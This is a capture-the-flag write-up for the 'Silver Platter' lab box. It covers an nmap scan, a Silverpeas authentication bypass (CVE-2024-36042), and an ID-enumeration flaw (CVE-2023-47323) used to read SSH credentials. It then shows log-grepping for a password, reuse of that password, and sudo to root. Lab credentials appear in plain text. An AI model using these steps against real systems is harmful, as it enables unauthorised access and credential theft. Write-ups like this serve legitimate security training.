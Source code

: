 # Silver Platter



## Ports Scan

```bash
nmap -T4 -A -p 22,80,8080 --min-rate 1000 10.10.49.42 -oN port_scan.txt -Pn

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3b:f4:48:e3:17:b8:3a:33:32:cb:b6:79:82:96:07:aa (ECDSA)
|_  256 3b:1f:a3:fe:0b:2c:79:9a:58:98:66:e6:cf:81:aa:72 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:19 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
```



## Web Enumeration

In the web site contact page we found this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probably other HTTP port 8080 is a Silverpeas server.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Searching on internet we can get that the default port might be the `8080` and the default route is `/silverpeas`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2024-36042 - Silverpeas Auth Bypass

Looking the years in the bottom of the page i can image that the software is not updated.

And... searching on web we have found a Authentication Bypass vulnerability

{% embed url="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d" %}

I tried to replicate this PoC and tata...

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2023-47323 - SilverPeas Broken Access Control

The version of the service is the 6.3.1

We can search on the web the version to find vulnerabilities

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CVE-2023-47322 looks interesting, it should allow us to read all message of all users.

{% embed url="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323" %}

```
http://10.10.206.103:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=1
```

Change the ID with BurpSuite we can enumerate the messages. Taking a look to the message with ID 6, this message contains SSH credentials

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SSH credential
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



## Initial Access

SSh connection

```bash
ssh tim@10.10.206.103
> cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

First things first, let's go to print the user flag

```bash
cat /home/tim/user.txt
```



## Privilege Escalation

### "adm" group PrivEsc

```bash
id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

> Traditionally the `adm` group is used to give a user access to some sort of system log files.\
> See e.g. `ls -l /var/log`.

With the log files acces, we can grep possible cleat-text password

{% code overflow="wrap" %}
```bash
cat /var/log/auth* | grep -i --text "pass"

Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1

```
{% endcode %}

With this password we can try to do password spray with know users.

```bash
su tyler
> _Zd_zx7N823/
```

That's it, we have access as tyler.

```bash
sudo -l

User tyler may run the following commands on ip-10-10-142-94:
    (ALL : ALL) ALL
```

User tyler has all privilege, and with this user we can became root.

```bash
sudo su
```

Now that we are root, we can print the root flag.

```bash
cat /root/root.txt
```



